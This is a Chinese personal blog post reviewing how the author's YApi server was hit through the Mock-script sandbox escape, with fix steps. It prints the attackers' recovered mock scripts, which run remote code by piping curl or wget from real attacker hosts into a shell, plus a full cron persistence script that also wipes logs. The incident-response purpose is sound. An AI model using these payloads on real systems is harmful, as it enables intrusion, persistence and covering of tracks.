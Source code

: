 ```yaml
---
title: YApi 漏洞复盘及解决方案
comments: true
toc: true
permalink: posts/yapi-vulnerability-review/
date: 2021-07-27 06:40:01
categories: Linux
tags:
  - Linux
  - 漏洞
---
```


今天为了 OPPO 商城的学生认证上了一下教育邮箱，去邮箱验证的时候发现收件箱收了一堆莫名其妙的退信，然后再一看发件箱，发现被拿来发了一堆的广告，感觉大事不妙。

扫了一下发件箱，发现有一条发送给某个随机邮箱说 YApi 注册成功的信息，我在自己的公网服务上是部署了一个 YApi，又想到好像最近有 YApi 的漏洞。

于是登上了 YApi 看了一下，注册用户中果然多了一堆莫名的乱码帐号。

看起来服务器是安然无恙的，所幸我是用 Docker 运行的 YApi。

<!-- more -->

## 漏洞概述

让专业的人来说：

{% blockquote 0x4qE@知道创宇404实验室 https://paper.seebug.org/1639/ %}

[Yapi](https://github.com/YMFE/yapi) 是高效、易用、功能强大的 api 管理平台，旨在为开发、产品、测试人员提供更优雅的接口管理服务。可以帮助开发者轻松创建、发布、维护 API，YApi 还为用户提供了优秀的交互体验，开发人员只需利用平台提供的接口数据写入工具以及简单的点击操作就可以实现接口的管理。

2021 年 7 月 8 日，有用户在 GitHub 上发布了遭受攻击的相关信息。攻击者通过注册用户，并使用 Mock 功能实现远程命令执行。命令执行的原理是 Node.js 通过 `require('vm')` 来构建沙箱环境，而攻击者可以通过原型链改变沙箱环境运行的上下文，从而达到沙箱逃逸的效果。通过 `vm.runInNewContext("this.constructor.constructor('return process')()")` 即可获得一个 process 对象。

{% endblockquote %}

推荐大家看看这个原文。

## 好嘛，解决它

这还是我第一次直面漏洞。

看了一些解决方案：

- <https://github.com/YMFE/yapi/issues/2229>
- <https://mp.weixin.qq.com/s/yKDmMrhaWZIOTPsz6zqHYA>

所以接下来就是关闭漏洞利用 ＆ 止损。

### 升级版本

更新 Yapi 至官方发布的 1.9.3，新版本用了更为安全的 safeify 模块，可以有效地防止这个漏洞。

我用的是 <https://github.com/fjc0k/docker-YApi>，

```bash
docker-compose pull yapi-web \
  && docker-compose down \
  && docker-compose up -d
```

### 关闭 YAPI 用户注册功能

在 `docker-compose.yml` 配置环境变量 `YAPI_CLOSE_REGISTER` 为 true 即可。

然后重启 compose：

```sh
docker-compose restart
```

### 删除 mock 脚本

首先进入 Mongo 的容器内，然后连接数据库，删除掉已有的 mock 脚本：

```bash
docker-compose exec yapi-mongo /bin/bash
mongo

# 数据库相关操作
> show dbs
> use yapi
> show tables
```

然后就能看到本地已有的表，需要删除 mock 脚本，先看一下有什么 Mock 脚本：

```bash
> db.adv_mock.find()
# 就能看到一堆 带有 sandbox 字样的 mock_script
{ "_id" : 10, "enable" : true, "interface_id" : 327, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 59, "uid" : "194", "up_time" : 1601333575, "__v" : 0 }
{ "_id" : 16, "enable" : true, "interface_id" : 332, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 67, "uid" : "201", "up_time" : 1601335228, "__v" : 0 }
{ "_id" : 76, "enable" : true, "interface_id" : 742, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami\").toString()", "project_id" : 179, "uid" : "299", "up_time" : 1625730796, "__v" : 0 }
{ "_id" : 82, "enable" : true, "interface_id" : 772, "mock_script" : "\n        const sandbox = this; // 获取Context\n        const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数\n        const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数\n        const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量\n        const process = myfun();\n        mockJson = process.mainModule.require(\"child_process\").execSync(\"curl -L https://jhx15.zzlxrj.com/Uploads/image/goods/2021-06-07/start.sh | bash -s '46n4YeKAjUp2FcJnx8SFEb5CMK3kMRJ9o9MEuCzWtv2VEF5LYeq6TJKSWV3h4sEj4CQiUmsb2dNMEQcKJZJM8zCYFp7wFoy'\").toString()", "project_id" : 227, "uid" : "355", "up_time" : 1626338890, "__v" : 0 }
{ "_id" : 88, "enable" : true, "interface_id" : 787, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"curl http://47.98.198.11:8015/init.sh | bash\").toString()", "project_id" : 243, "uid" : "383", "up_time" : 1625989857, "__v" : 0 }
{ "_id" : 94, "enable" : true, "interface_id" : 792, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 251, "uid" : "390", "up_time" : 1625991205, "__v" : 0 }
{ "_id" : 100, "enable" : true, "interface_id" : 827, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 267, "uid" : "404", "up_time" : 1626096094, "__v" : 0 }
{ "_id" : 106, "enable" : true, "interface_id" : 832, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 275, "uid" : "411", "up_time" : 1626096134, "__v" : 0 }
{ "_id" : 124, "enable" : true, "interface_id" : 922, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nvar t = process[\"\\x6d\\x61\\x69\\x6e\\x4d\\x6f\\x64\\x75\\x6c\\x65\"][\"\\x72\\x65\\x71\\x75\\x69\\x72\\x65\"](\"\\x63\\x68\\x69\\x6c\\x64\\x5f\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\")\r\nmockJson=t.execSync(\"wget -qO- http://47.98.198.11:8015/cron.sh | sh \").toString()", "project_id" : 315, "uid" : "425", "up_time" : 1626506262, "__v" : 0 }
{ "_id" : 130, "enable" : true, "interface_id" : 992, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"echo 123321vul\").toString()", "project_id" : 387, "uid" : "635", "up_time" : 1626766514, "__v" : 0 }

> db.adv_mock.deleteMany({"mock_script" : {$regex : "sandbox"}})
```

可以看到是真的有很多利用脚本。。。

打开一个 `cron.sh` 看了一下：

```sh
#!/bin/bash

crondir1='/var/spool/cron/'"$USER"
crondir2='/var/spool/cron/crontabs/'"$USER"

chmod 777 /usr/bin/chattr
chmod 777 /bin/chattr

unlock_cron()
{
    chattr -ia /etc/crontab
    chattr -R -ia /var/spool/cron
    chattr -R -ia /var/spool/cron/crontabs
    chattr -R -ia /etc/cron.d
}

lock_cron()
{
    chattr +ia ${crondir1}
    chattr +ia ${crondir2}
    chattr +ia /etc/cron.d/zabbix_client
}

rtdir="/etc/zabbix_flag"
echo 1 > ${rtdir}

if [ -f "$rtdir" ]
then
    mv /tmp/zabbix_client /etc/zabbix_client
    unlock_cron
    cat ${crondir1} | grep -E -v "^#" | grep -q "zabbix_client" ||               echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1" >> ${crondir1}
    cat ${crondir2} | grep -E -v "^#" | grep -q "zabbix_client" ||               echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1" >> ${crondir2}
    cat /etc/cron.d/zabbix_client | grep -E -v "^#" | grep -q "zabbix_client" || echo "*/40 * * * * root /etc/zabbix_client >/dev/null 2>&1" >> /etc/cron.d/zabbix_client
    cat /etc/crontab | grep -E -v "^#" | grep -q "zabbix_client" ||              echo "0 * * * * root /etc/zabbix_client >/dev/null 2>&1" >> /etc/crontab
    crontab -l | grep -E -v "^#" | grep -q "zabbix_client" || (crontab -l ; echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1") | crontab -
    lock_cron
    chmod 777 /etc/zabbix_client
    chattr +ia /etc/zabbix_client
else
    unlock_cron
    crontab -l | grep -E -v "^#" | grep -q "zabbix_client" || (crontab -l ; echo "*/30 * * * * /tmp/zabbix_client >/dev/null 2>&1") | crontab -
    lock_cron
    chmod 777 /tmp/zabbix_client
    chattr +ia /tmp/zabbix_client
fi
iptables -A OUTPUT -p tcp -j ACCEPT
history -c
echo > /var/spool/mail/root
echo > /var/log/wtmp
echo > /var/log/secure
echo > /root/.bash_history
chmod 444 /usr/bin/chattr
chmod 444 /bin/chattr
rm /etc/zabbix_flag
rm cron.sh
```

搜了一下 rabbix 是什么：Real-time monitoring of IT components and services, such as networks, servers, VMs, applications and the cloud.

但是用 docker 的好处就出现了~ docker-compose 停止再启动，一切利用都木有了..

## 后记

这个漏洞很早之前就看过相关新闻，但没联想到会发生在自己身上...
看记录，6.4 号就有人注册了新的 yapi 帐号，止血太晚~

还好是执行在容器里的服务，没有造成太大的损失。

## 参考链接

- <https://github.com/fjc0k/docker-YApi>
- <https://paper.seebug.org/1639/>
- <https://github.com/YMFE/yapi/issues/2229>
